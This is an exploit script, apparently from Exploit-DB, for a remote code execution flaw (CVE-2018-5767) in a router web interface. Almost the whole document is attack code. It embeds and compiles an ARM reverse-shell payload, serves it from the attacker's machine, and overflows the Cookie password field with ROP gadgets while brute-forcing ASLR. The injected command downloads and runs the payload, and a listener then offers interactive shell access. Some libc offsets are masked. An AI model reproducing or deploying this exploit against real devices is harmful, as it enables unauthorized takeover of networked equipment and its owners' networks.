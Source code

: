 EXP
---

    #!/usr/bin/env python
    # EDB Note ~ Source: https://www.fidusinfosec.com/remote-code-execution-cve-2018-5767/
    import urllib2
    import struct
    import time
    import socket
    from optparse import *
    import SimpleHTTPServer
    import SocketServer
    import threading
    import sys
    import os
    import subprocess

    ARM_REV_SHELL = (
    "#include <sys/socket.h>\n"
    "#include <sys/types.h>\n"
    "#include <string.h>\n"
    "#include <stdio.h>\n"
    "#include <netinet/in.h>\n"
    "int main(int argc, char **argv)\n"
    "{\n"
    "           struct sockaddr_in addr;\n"
    "           socklen_t addrlen;\n"
    "           int sock = socket(AF_INET, SOCK_STREAM, 0);\n"

    "           memset(&addr, 0x00, sizeof(addr));\n"

    "           addr.sin_family = AF_INET;\n"
    "           addr.sin_port = htons(%d);\n"
    "           addr.sin_addr.s_addr = inet_addr(\"%s\");\n"

    "           int conn = connect(sock, (struct sockaddr *)&addr,sizeof(addr));\n"

    "           dup2(sock, 0);\n"
    "           dup2(sock, 1);\n"
    "           dup2(sock, 2);\n"

    "           system(\"/bin/sh\");\n"
    "}\n"
    )

    REV_PORT = 31337
    HTTPD_PORT = 8888
    DONE = False

    """
    * This function creates a listening socket on port
    * REV_PORT. When a connection is accepted it updates
    * the global DONE flag to indicate successful exploitation.
    * It then jumps into a loop whereby the user can send remote
    * commands to the device, interacting with a spawned /bin/sh
    * process.
    """
    def threaded_listener():
                global DONE
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)

                host = ("0.0.0.0", REV_PORT)

                try:
                            s.bind(host)
                except:
                            print "[+] Error binding to %d" %REV_PORT
                            return -1


                print "[+] Connect back listener running on port %d" %REV_PORT

                s.listen(1)
                conn, host = s.accept()

                #We got a connection, lets make the exploit thread aware
                DONE = True

                print "[+] Got connect back from %s" %host[0]
                print "[+] Entering command loop, enter exit to quit"

                #Loop continuosly, simple reverse shell interface.
                while True:
                            print "#",
                            cmd = raw_input()
                            if cmd == "exit":
                                        break
                            if cmd == '':
                                        continue

                            conn.send(cmd + "\n")

                            print conn.recv(4096)

    """
    * Take the ARM_REV_SHELL code and modify it with
    * the given ip and port to connect back to.
    * This function then compiles the code into an
    * ARM binary.
    @Param comp_path – This should be the path of the cross-compiler.
    @Param my_ip – The IP address of the system running this code.
    """
    def compile_shell(comp_path, my_ip):
                global ARM_REV_SHELL
                outfile = open("a.c", "w")

                ARM_REV_SHELL = ARM_REV_SHELL%(REV_PORT, my_ip)

                outfile.write(ARM_REV_SHELL)
                outfile.close()

                compile_cmd = [comp_path, "a.c","-o", "a"]

                s = subprocess.Popen(compile_cmd, stderr=subprocess.PIPE, stdout=subprocess.PIPE)

                while s.poll() == None:
                            continue

                if s.returncode == 0:
                            return True
                else:
                            print "[x] Error compiling code, check compiler? Read the README?"
                            return False

    """
    * This function uses the SimpleHTTPServer module to create
    * a http server that will serve our malicious binary.
    * This function is called as a thread, as a daemon process.
    """
    def start_http_server():
                Handler = SimpleHTTPServer.SimpleHTTPRequestHandler
                httpd = SocketServer.TCPServer(("", HTTPD_PORT), Handler)

                print "[+] Http server started on port %d" %HTTPD_PORT
                httpd.serve_forever()


    """
    * This function presents the actual vulnerability exploited.
    * The Cookie header has a password field that is vulnerable to
    * a sscanf buffer overflow, we make use of 2 ROP gadgets to
    * bypass DEP/NX, and can brute force ASLR due to a watchdog
    * process restarting any processes that crash.
    * This function will continually make malicious requests to the
    * devices web interface until the DONE flag is set to True.
    @Param host – the ip address of the target.
    @Param port – the port the webserver is running on.
    @Param my_ip – The ip address of the attacking system.
    """
    def exploit(host, port, my_ip):
                global DONE
                url = "http://%s:%s/goform/exeCommand"%(host, port)
                i = 0

                command = "wget http://%s:%s/a -O /tmp/a && chmod 777 /tmp/a && /tmp/./a &;" %(my_ip, HTTPD_PORT)

                #Guess the same libc base continuosly
                libc_base = ****
                curr_libc = libc_base + (0x7c << 12)

                system = struct.pack("<I", curr_libc + ****)

                #: pop {r3, r4, r7, pc}
                pop = struct.pack("<I", curr_libc + ****)
                #: mov r0, sp ; blx r3
                mv_r0_sp = struct.pack("<I", curr_libc + ****)

                password = "A"*offset
                password += pop + system + "B"*8 + mv_r0_sp + command + ".gif"

                print "[+] Beginning brute force."
                while not DONE:
                            i += 1
                            print "[+] Attempt %d" %i

                            #build the request, with the malicious password field
                            req = urllib2.Request(url)
                            req.add_header("Cookie", "password=%s"%password)

                            #The request will throw an exception when we crash the server,
                            #we don't care about this, so don't handle it.
                            try:
                                        resp = urllib2.urlopen(req)
                            except:
                                        pass

                            #Give the device some time to restart the
                            time.sleep(1)

                print "[+] Exploit done"


    def main():
                parser = OptionParser()
                parser.add_option("-t", "–target", dest="host_ip", help="IP address of the target")
                parser.add_option("-p", "–port", dest="host_port", help="Port of the targets webserver")
                parser.add_option("-c", "–comp-path", dest="compiler_path", help="path to arm cross compiler")
                parser.add_option("-m", "–my-ip", dest="my_ip", help="your ip address")

                options, args = parser.parse_args()

                host_ip = options.host_ip
                host_port = options.host_port
                comp_path = options.compiler_path
                my_ip = options.my_ip

                if host_ip == None or host_port == None:
                            parser.error("[x] A target ip address (-t) and port (-p) are required")

                if comp_path == None:
                            parser.error("[x] No compiler path specified, you need a uclibc arm cross compiler, such as https://www.uclibc.org/downloads/binaries/0.9.30/cross-compiler-arm4l.tar.bz2")

                if my_ip == None:
                            parser.error("[x] Please pass your ip address (-m)")


                if not compile_shell(comp_path, my_ip):
                            print "[x] Exiting due to error in compiling shell"
                            return -1

                httpd_thread = threading.Thread(target=start_http_server)
                httpd_thread.daemon = True
                httpd_thread.start()

                conn_listener = threading.Thread(target=threaded_listener)
                conn_listener.start()

                #Give the thread a little time to start up, and fail if that happens
                time.sleep(3)

                if not conn_listener.is_alive():
                            print "[x] Exiting due to conn_listener error"
                            return -1


                exploit(host_ip, host_port, my_ip)


                conn_listener.join()

                return 0



    if __name__ == '__main__':
                main()